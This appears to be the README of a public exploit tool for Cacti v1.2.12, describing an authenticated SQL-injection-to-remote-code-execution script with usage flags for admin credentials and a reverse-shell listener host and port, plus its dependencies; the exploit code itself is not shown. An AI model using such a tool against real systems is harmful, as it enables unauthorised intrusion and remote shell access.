 # Cacti v1.2.12 Authenticated Remote Code Execution     
# (SQLI --> RCE)

<h3> Discovery : https://github.com/Cacti/cacti/issues/3622 </h3>


<h4> Usage : </h4>
<h4>python3 cacti_rce.py cacti_rce.py -H http://cactiurl -U `ADMIN USERNAME` -P `ADMIN PASSWORD` -l `LHOST` -p `LPORT` </h4>
  
<br>
usage: cacti_rce.py [-h] [-H H] [-U U] [-P P] [-l L] [-p P]

Cacti v1.2.12 Authenticated Remote Code Execution

 <p> optional arguments: </p>
 <p> -h, --help  show this help message and exit  </p>
 <p> -H H        Cacti URL Eg:http://cactiurl     </p>
 <p> -U U        Cacti Admin Username             </p>
 <p> -P P        Cacti Admin Password             </p>
 <p> -l L        rev shell lhost                  </p>
 <p> -p P        rev shell lport                  </p>


# Dependencies

<h4> pip3 install argparse </h4>
<h4> pip3 install bs4 </h4>
<h4> pip3 install requests </h4>
